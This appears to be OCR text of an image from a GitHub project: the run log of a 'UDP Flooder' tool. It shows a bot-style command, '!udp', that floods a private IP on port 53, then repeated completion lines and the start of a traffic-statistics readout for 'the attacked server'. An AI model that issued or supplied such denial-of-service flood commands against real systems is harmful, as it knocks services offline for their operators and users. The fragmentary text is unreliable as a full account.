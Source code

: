 Setting up Sockets...

!udp 10.0.0.106 53 1 1024 2 30 


Starting Flood > 10.0.0.106 ...
Starting Flood > 10.0.0.106 ...
Tue Dec 24 00:11:18 2019

UDP Flooder v1.2.8 FINAL by ohnoes1479
Setting up Sockets...

Starting Flood > 10.0.0.106 ...
Tue Dec 24 00:11:49 2019

[UDP DONE]

The operation took 34.007 seconds

Tue Dec 24 00:11:50 2019

[UDP DONE]

Tue Dec 24 00:11:51 2019

[UDP DONE]

The operation took 34.008 seconds

Tue Dec 24 00:11:52 2019

[UDP DONE]

The operation took 34.003 seconds

The operation took 34.006 seconds

Tue Dec 24 00:11:54 2019

[UDP DONE]

Tue Dec 24 00:11:54 2019

[UDP DONE]

Tue Dec 24 00:11:54 2019

[UDP DONE]

The operation took 34.011 seconds

The operation took 35.068 seconds

Tue Dec 24 00:11:51 2019

[UDP DONE]

The operation took 34.009 seconds


now the statistic of the attacked server by vnstat


 ens18  /  traffic statistics
